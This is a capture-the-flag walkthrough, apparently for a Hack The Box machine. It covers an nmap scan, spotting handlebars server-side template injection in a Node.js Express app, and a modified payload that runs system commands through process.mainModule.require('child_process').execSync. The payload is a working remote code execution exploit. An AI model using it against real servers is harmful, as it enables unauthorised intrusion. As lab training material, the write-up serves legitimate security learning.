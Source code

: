  What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high. `22,80`.
```bash
nmap -T5 -p- -sV -sC --min-rate=1000 "10.129.76.182"
echo "10.129.76.182" | sudo tee -a /etc/hosts
```

What software is running the service listening on the http/web port identified in the first question? `node.js`, from Wappalyzer.

What is the name of the Web Framework according to Wappalyzer? `Express`, from Wappalyzer.

What is the name of the vulnerability we test for by submitting `{{7*7`}}? Server-Side Template Injection. [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

What is the templating engine being used within Node.JS? `handlebars`, from `node.js`. Can be seen by putting `{{7*7`}} in the email entry.

What is the name of the BurpSuite tab used to encode text? Decoder. I need to study BurpSuite. The idea is to encode the SSTI code from HackTricks into an URL.

In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use? `URL`.

When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error? `require`. It's from a node.js module.

What variable is the name of the top-level scope in Node.JS? `global`.

HackTricks' payload for `handlebars` uses a module called `require`, which is not global in `node.js` and we can not access it. But if we search in the documentation [https://nodejs.org/api/globals.html](https://nodejs.org/api/globals.html), we see that the module `process` is global and have similar functionality as `require`. So, we modify the payload to use the `process` module. Remember it has to be encoded into an URL.
```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
